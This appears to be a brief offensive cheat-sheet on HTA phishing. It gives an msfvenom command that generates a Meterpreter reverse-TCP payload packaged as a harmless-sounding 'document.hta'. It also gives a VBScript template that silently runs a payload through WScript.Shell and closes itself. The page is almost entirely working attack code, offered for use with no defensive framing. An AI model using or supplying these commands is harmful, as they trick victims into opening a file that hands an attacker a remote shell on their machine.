 # Phishing

## .hta phishing

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=LHOST LPORT=LPORT -f hta-psh -o document.hta
```

```vbscript
<script language="VBScript">
  Function Update()
    Dim yz
    Set yz = CreateObject("Wscript.Shell")
    yz.run "PAYLOAD"
    Set yz = Nothing
  End Function
  
  Update
  self.close
</script>
```
